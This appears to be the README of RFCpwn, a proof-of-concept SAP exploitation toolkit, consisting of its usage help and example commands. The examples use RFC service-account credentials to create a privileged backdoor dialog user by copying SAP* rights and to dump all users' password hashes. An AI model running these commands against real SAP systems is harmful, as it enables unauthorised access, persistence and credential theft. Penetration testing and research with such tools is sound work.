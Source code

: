 # RFCpwn
An SAP enumeration and exploitation toolkit using SAP RFC calls


This is a toolkit for demonstrating the impact of compromised service accounts.


This is a PoC and not for use in production environments, no guarantee of stability or support.


RFCpwn relies on the pyrfc and the libraries provided by SAP in: https://github.com/SAP/PyRFC#installation
```shell
usage: RFCpwnv2.py [-h] [-debug] [-ip IP] [-u Username] [-p Password]
                   [-c Client] [-s Sysid] [-ping] [-enum] [-usercopy]
                   [-user USER] [-copy COPY] [-pw PW] [-dump] [-exp]

An Impacket style enumeration and exploitation tool using SAP RFC calls

optional arguments:
  -h, --help   show this help message and exit
  -debug       Turn DEBUG output ON

Authentication:
  -ip IP       <targetName or address>
  -u Username  RFC Users Username
  -p Password  RFC Users Password
  -c Client    Client- eg.000
  -s Sysid     System Number- eg 00
  -ping        RFC Ping Command

User Abuse:
  -enum        Use to enumerate a specific user
  -usercopy    add a Dialog User
  -user USER   Required for -usercopy and -userenum to specify the user
  -copy COPY   User to be copied required for -usercopy
  -pw PW       password of new user for -usercopy

Hash Collection:
  -dump        Dump hashes use with below
  -exp         EXPERIMENTAL - Dump BCODE / PASSCODE hashes
  ```
## Examples
Ping - confirm connectivity
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -ping
```
Copy a users rights into a new dialog user. If -copy is not specified SAP* is used.
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -usercopy -user attacker -pw changeme1
```
Dump hashes from all users. option -exp for experimental bcode & passcode hashes.
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -dump 
```
